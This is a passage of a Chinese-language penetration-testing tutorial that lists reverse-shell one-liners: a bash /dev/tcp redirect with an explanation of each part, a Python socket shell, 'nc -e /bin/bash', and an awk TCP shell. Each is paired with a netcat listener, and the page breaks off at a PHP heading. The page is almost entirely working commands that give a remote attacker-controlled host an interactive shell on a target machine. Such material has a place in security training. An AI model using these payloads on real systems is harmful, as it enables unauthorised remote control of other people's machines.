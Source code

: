 目标机开启反弹

```
bash -i >& /dev/tcp/IP/4444 0>&1

bash -i            创建一个交互式的bash shell
&>                 将标准输出和标准错误都重定向到我们指定的文件
/dev/tcp/IP/4444   建立连接到IP的4444端口
0>&1               将文件描述符0重定向为文件描述符1，也就是标准输入被重定向为标准输出
```

![image-20231013230758727](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013230758727.png)

### python 反弹

本地作为服务器开启监听

```
nc -lvvp 444
```

靶机作为客户端开启反弹

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![image-20231013231843828](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013231843828.png)

连的时候会稍微有点慢

### nc反弹

本地作为服务器开启监听

```
nc -lvvp 4444
```

靶标机作为客户端反弹shell

```
nc -e /bin/bash IP 4444
```

![image-20231013232442140](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013232442140.png)

### awk反弹

```text
awk 'BEGIN{s="/inet/tcp/0/VPS_IP/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### php反弹
